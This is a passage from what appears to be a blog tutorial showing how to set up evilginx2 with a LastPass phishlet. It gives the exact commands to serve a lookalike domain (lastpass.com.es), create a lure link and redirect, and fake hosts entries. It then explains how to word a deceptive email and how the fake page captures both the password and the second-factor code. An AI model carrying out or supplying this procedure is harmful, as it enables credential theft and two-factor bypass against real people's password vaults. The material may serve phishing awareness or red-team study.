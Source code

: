 ![](https://cdn-images-1.medium.com/max/800/1*E0EMVroZkVYm9dbRNTSIgQ.png)

You can set this up on your favorite cloud hosting provider. After setting up the binaries of _evilginx2._ You run it and then configure the LastPass phishlet.

```bash
$ sudo ./bin/evilginx -p ./phishlets/ -developer

> config ip 127.0.0.1  
> config domain lastpass.com.es

> phishlets hostname lastpass lastpass.com.es  
> phishlets enable lastpass
```

And then you create the link you want to bait them. The `redirect_url` is the page you want the victim to end up once you get all the necessary credentials.

``` bash
> lures create lastpass  
> lures edit redirect_url 0 [https://www.youtube.com/watch?v=dQw4w9WgXcQ](https://www.youtube.com/watch?v=dQw4w9WgXcQ)  
> lures get-url 0
```

![](https://cdn-images-1.medium.com/max/800/1*8m8tlF4QxxiU87_jYXdPpQ.png)

In our case, we want our victim to go `https://lastpass[.]com[.]es/QBFlGqJy`

Note: For this to work locally you might need to add the following to `/etc/hosts`

```bash
127.0.0.1 lastpass.com.es  
127.0.0.1 lp-cdn.lastpass.com.es  
127.0.0.1 www.lastpass.com.es
```

#### Sending the Phishing Email

Assuming that you use an existing phishlet, then we have to make a phishing email. This is really where a lot of the work comes in. You have to somehow trick the user into clicking the link. Crafting a good phishing email is an art.

![](https://cdn-images-1.medium.com/max/800/1*ssc1naUhYfA6kPC6G_QonA.png)

In this case, we say that we have revoked trusted devices so that hopefully, he won’t be surprised just in case he gets alerts of new log-ins.

#### Waiting for the credentials

When the victim clicks on the link, he will be redirected to the fake LastPass login.

![Notice lastpass.com.es](https://cdn-images-1.medium.com/max/800/1*Sn7hQ739Z9T4wthlcBymUg.png)
*Notice lastpass.com.es*

And when LastPass requires 2FA, then the fake website will ask the victim to provide the second factor.
